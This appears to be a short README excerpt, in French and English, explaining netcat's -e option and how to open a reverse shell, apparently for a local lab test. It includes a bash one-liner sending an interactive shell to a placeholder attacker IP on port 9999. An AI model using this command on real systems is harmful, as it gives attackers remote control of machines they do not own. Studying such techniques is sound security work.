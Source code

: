"-e filename             program to exec after connect [dangerous!!]"

"this option can redirect the input, output, and error messages of an executable to a TCP/UDP port 
rather than the default console."

[https://michalwojcik.com.pl/2020/10/08/netcat-2-bind-reverse-shell/](https://michalwojcik.com.pl/2020/10/08/netcat-2-bind-reverse-shell/)

"Once the connection is established, target’s Netcat will redirect /bin/bash output/input/error streams 
to attacker’s connected machine on port 9999. Thus, attacker will be able to execute commands on target’s computer."

## Sans netcat

Souvent, la version de netcat est installée sans l'option -e

On peut alors ouvrir un reverse shell en bash.
```
bash -i >& /dev/tcp/<<attacker ip>>/9999 0>&1
```
(sur kali le shell est zsh...)

## Exploit en local

![Test local 2](doc/TestLocal2.drawio.png?raw=true)